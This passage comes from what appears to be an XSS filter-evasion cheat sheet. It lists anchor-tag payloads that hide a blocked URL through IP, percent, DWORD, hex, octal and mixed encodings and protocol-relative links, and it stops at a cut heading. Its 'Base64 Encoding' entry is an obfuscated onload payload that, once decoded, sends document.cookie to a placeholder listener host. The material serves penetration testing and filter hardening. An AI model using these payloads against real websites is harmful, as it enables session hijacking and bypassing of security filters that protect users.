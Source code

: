 Assuming `http://www.google.com/` is programmatically disallowed:

#### IP Versus Hostname

`<A HREF="http://66.102.7.147/">XSS</A>`

#### URL Encoding

`<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>`

#### DWORD Encoding

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

`<A HREF="http://1113982867/">XSS</A>`

#### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

`<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>`

#### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

`<A HREF="http://0102.0146.0007.00000223/">XSS</A>`

#### Base64 Encoding

`<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">`

#### Mixed Encoding

Let's mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:


```html
<A HREF="h 
tt  p://6	6.000146.0x7.147/">XSS</A>
```


#### Protocol Resolution Bypass

`//` translates to `http://` which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL.

`<A HREF="//www.google.com/">XSS</A>`

#### Google "feeling lucky" part 1
